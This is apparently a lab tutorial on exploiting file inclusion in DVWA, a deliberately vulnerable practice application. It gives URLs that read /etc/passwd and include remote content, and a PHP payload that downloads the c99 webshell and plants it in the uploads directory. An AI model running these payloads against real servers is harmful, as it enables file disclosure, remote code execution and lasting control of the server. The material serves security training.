 # File Inclusion

This vulnerability refers to the possibility of file inclusion within the execution of the Web application itself. At this point in the application it is possible to exploit the local inclusion of files (Local File Inclusion) or the remote inclusion of files (**Remote File Inclusion**).

To allow the inclusion of remote files in PHP there is a configuration directive in the `php.ini` file (to know the exact location of this file the simplest thing is to choose the option in the DVWA that indicates "**PHP Info**") that must contain the following value:

    allow_url_include = On

## Local File Include

To exploit this vulnerability, what an attacker will do is attempt to modify the URL of the page that appears in the web browser and attempt to include a file that may be locally hosted on the web server. 

The URL that appears would be:

    http://localhost/dvwa/vulnerabilities/fi/?page=file1.php

What the attacker may attempt to do is using the input parameter "page" to try to manipulate it in order to try to pass references to other local files that the application may not fully control. For example:

    http://localhost/dvwa/vulnerabilities/fi/?page=/etc/passwd

This way, the vulnerable application would try to include the local file (`/etc/passwd`) and show its contents in the web browser window, as can be seen in the following image.

![](../assets/fi01.png)
 
As can be seen, the `/etc/passwd` file was dumped directly into the attacker's browser - depending on the file, it may contain confidential information.

## Remote File Include

In the case of remote file inclusion, the situation is more serious, as the inclusion can lead to other types of files (including files with PHP code) that will be executed on the server where the vulnerable web application is installed.

It is very easy to check if an application is vulnerable to this type of attacks. In the specific case of this DVWA, what is intended is once again to manipulate the URL in order to include remote content.

We can try to include a remote site:

    http://localhost/dvwa/vulnerabilities/fi/?page=http://www.google.com

And as we can see, the Google site is included inside the DVWA site. It's a good sign, at least for the attacker!!!

![](../assets/fi02.png)

A more serious situation occurs when it is possible for an attacker to include a remote PHP file, which can be executed on the server where the vulnerable web application is running. Imagine for example the attacker being able to include a PHP WebShell - this would allow him to access the target system's filesystem (DVWA server) and control it remotely - this would be even more serious if the web server's apache process has privileged permissions.

To demonstrate this attack we will simulate the inclusion of "malicious" code on the site that then allows the installation of a web shell that allows remote administration of the site from an attacker's computer. Several steps in this process are listed below.

**First**, an attacker prepares a "malicious" PHP script, to manipulate the victim's web site (DVWA). This PHP script uses the uploads directory of the site (because it can be written by the apache process) and creates a directory and copies there a webshell (which can be found publicly on the Web). This script needs to be hosted on a web server. You can [do this directly in Kali Linux](https://techdhee.in/install-apache-on-kali-linux/).


    <?php
        $url = "http://localhost/payloads/c99.php";
        $dir = "/var/www/html/dvwa/hackable/uploads/webshell"; 
        mkdir($dir);
        $raw = file_get_contents($url);
        file_put_contents($dir."/c99.php", $raw);
        echo "You have been owned!!!";
    ?>


Second, the attacker, taking advantage of the file inclusion vulnerability, tries to inject his malicious code. To do so, it uses the following URL: 

    http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/payload/payload.php


Third, after the payload is executed, on the server of the vulnerable site in the directory "`/var/www/html/dvwa/hackable/uploads/`" a directory "`webshell`" is created where a file "`c99.php`" is downloaded - our webshell.

Finally, since the webshell is now resident on the server, it can be executed directly using the following URL: `http://localhost/dvwa/hackable/uploads/webshell/c99.php`.
 

